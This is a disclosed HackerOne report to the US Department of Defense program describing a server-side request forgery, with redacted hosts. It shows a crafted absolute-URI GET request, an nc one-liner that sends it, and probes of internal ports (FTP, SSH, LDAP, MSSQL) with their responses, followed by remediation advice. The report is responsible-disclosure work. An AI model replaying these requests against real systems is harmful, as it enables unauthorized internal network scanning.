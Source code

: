 # SSRF in ███████

## Report Details
- **Report ID**: 207477
- **URL**: https://hackerone.com/reports/207477
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2017-02-19T11:05:09.890Z
- **Disclosed**: 2019-12-02T18:42:58.562Z

## Reporter
- **Username**: akaki
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Summary:** Server-Side Request Forgery (SSRF) vulnerability in the [██████](http://████/).

**Description:** By sending a specially crafted HTTP request, I can forcibly send a URL request from SSI server.

When sending the following HTTP request, access from the SSI server was logged on my server.

Request:
```http
GET http://██████████████████/ HTTP/1.1


```

You can send this HTTP request by executing following command.
>$ echo -ne "GET http\://██████████████/ HTTP/1.1\r\n\r\n" | nc █████████ 80

Response:
```http
HTTP/1.1 403 Forbidden
Cache-Control: no-cache
Pragma: no-cache
Content-Type: text/html; charset=utf-8
Proxy-Connection: Keep-Alive
Connection: Keep-Alive
Content-Length: 2628

<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
<title>Access Denied</title>
```

Server Log:
███████

I judged from the information of the source IP address that it is accessed from the SSI server.
>$ whois ████████
>
>Organization:   ████
> ..
>OrgAbusePhone:  +███████
>OrgAbuseEmail:  █████\███████

## Impact
The attacker can force GET request to be transmitted to other services in the internal network. Furthermore, it is also used for port scan by Cross-Site Port Attack (XSPA).

For example, I could identify several services running on this server.

* FTP (port 20) and SSH (port 22) are running
    Request: `GET http://█████████:20/ HTTP/1.1`
    Response: `HTTP/1.1 503 Service Unavailable`

    Request: `GET http://██████████:21/ HTTP/1.1`
    Response: `Timeout`

    Request: `GET http://███:22/ HTTP/1.1`
    Response: `HTTP/1.1 503 Service Unavailable`

* LDAP (port 389) is running
    Request: `GET http://█████████:387/ HTTP/1.1`
    Response: `Timeout`

    Request: `GET http://█████:389/ HTTP/1.1`
    Response: `HTTP/1.1 503 Service Unavailable`

* MSSQL (port 1433) is running
    Request: `GET http://████████:1431/ HTTP/1.1`
    Response: `Timeout`

    Request: `GET http://█████:1433/ HTTP/1.1`
    Response: `HTTP/1.1 503 Service Unavailable`

## Suggested Remediation Actions
I assume that this behavior is caused not by the web server, but by the system located in front of it (e.g. cache server). In that system, if there is no Host header in the HTTP request (e.g. HTTP/0.9 support) it may be referring to an absolute-URI.

It is suggested that you change the setting of the cause system so that it does not refer to the absolute-URI of the HTTP request with no Host header.

>This white paper may help you identify the cause.
>http://www.cgisecurity.com/lib/HTTP-Request-Smuggling.pdf

## Attachments
No attachments
